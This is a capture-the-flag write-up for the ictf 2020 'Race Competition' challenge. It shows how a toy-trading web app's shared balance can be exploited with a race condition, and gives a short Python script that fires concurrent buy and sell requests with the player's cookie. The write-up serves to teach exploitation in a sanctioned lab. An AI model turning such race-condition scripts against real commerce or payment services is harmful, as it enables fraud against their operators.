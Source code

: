 # ictf Dec 2020
## Race Competition
#### Description
> Hey there! One of my friends is running a race competition! Will you get the first place? He also told me that special participants have also the right to claim a flag, but I don't know nothing about tradings...
**Attachments**
https://racecompetition.ctfchallenge.ga/
**Category**
Misc
**Points**
200
#### Explanation
Taking a look around the website, we see that when we input a name it gives us a unique cookie like `name="2337055namehere"`. Clicking "submit" redirects us to the `trade` page on which we can see our money, amount of toys, and options to sell or buy more toys. We can sell as many toys as we want, but we can only buy as much as our balance will allow.

![trade page](https://i.imgur.com/eHn4710.png)

Looking at the source of the page, we find the following comment:
```html
<!-- I only give the flag for those who buy 100 toys!! Muahahaha - ->
```
So now we know that we need to get 100 toys, but we only have enough money for 10 toys. From the name of the challenge and the fact that we have two different process that rely on the same resources (buy and sell both rely on money and amount of toys), we can deduce that this is a [race condition](https://en.wikipedia.org/wiki/Race_condition).
#### Solution
We need a way to tell the server to buy and sell toys at the same time to increase our balance. You could, hypothetically, open two different pages with the same cookie and click "buy" on one and "sell" on the other really fast, but this doesn't sound very fun (or feasible) to me. The easiest way to do it in my opinion is with a really simple python script and a multithreading library:
```python
import requests
from threading import Thread


url = 'http://racecompetition.ctfchallenge.ga/trade/'
cookie = {'name': '<put your cookie here>'}


def buy():
    for x in range(100):
        requests.post(url, data={'action': 'buy'}, cookies=cookie)


def sell():
    for x in range(100):
        requests.post(url, data={'action': 'sell'}, cookies=cookie)


if __name__ == '__main__':
    Thread(target=buy).start()
    Thread(target=sell).start()

    Thread(target=buy).start()
```
I found that starting two buy threads and one sell thread was the most efficient way to do this: one buy and sell thread to take advantage of the race condition, and the extra buy thread to get your toys up to 100 quicker.